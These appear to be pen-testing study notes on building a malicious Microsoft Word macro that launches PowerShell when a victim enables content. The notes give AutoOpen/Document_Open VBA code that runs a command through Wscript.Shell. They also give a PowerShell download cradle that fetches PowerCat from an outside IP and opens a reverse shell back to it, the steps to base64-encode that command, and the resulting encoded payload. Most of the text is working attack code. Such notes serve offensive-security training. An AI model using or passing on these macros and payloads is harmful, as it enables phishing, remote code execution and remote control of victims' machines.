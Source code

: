 #### Microsoft Word Macro Security Warning
![[Pasted image 20230605111000.png]]

#### Enabled Macro started a PowerShell window
![[Pasted image 20230605111015.png]]
The PowerShell window was started through our macro. In a real-world assessment, our victim must click on _Enable Content_ to run our macros, otherwise our attack will fail.

We should note that VBA has a 255-character limit for literal strings and therefore, we can't just embed the base64-encoded PowerShell commands as a single string. This restriction does not apply to strings stored in variables, so we can split the commands into multiple lines (stored in strings) and concatenate them.

#### Declaring a string variable and provide it as a parameter
```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    CreateObject("Wscript.Shell").Run Str
End Sub
```

#### PowerShell download cradle and PowerCat reverse shell
```PowerShell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.197/powercat.ps1');powercat -c 192.168.45.197 -p 4443 -e powershell
```

#### Encode PowerShell script that uploads and executes PowerCat
```PowerShell
$Text = "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.197/powercat.ps1');powercat -c 192.168.45.197 -p 4444 -e powershell"
```

```PowerShell
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
```

```PowerShell
$EncodedText =[Convert]::ToBase64String($Bytes)
```

```PowerShell
$EncodedText 

SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADEAOQA3AC8AcABvAHcAZQByAGMAYQB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQBjACAAMQA5ADIALgAxADYAOAAuADQANQAuADEAOQA3ACAALQBwACAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwA
```
This is UTF-16LE encoding
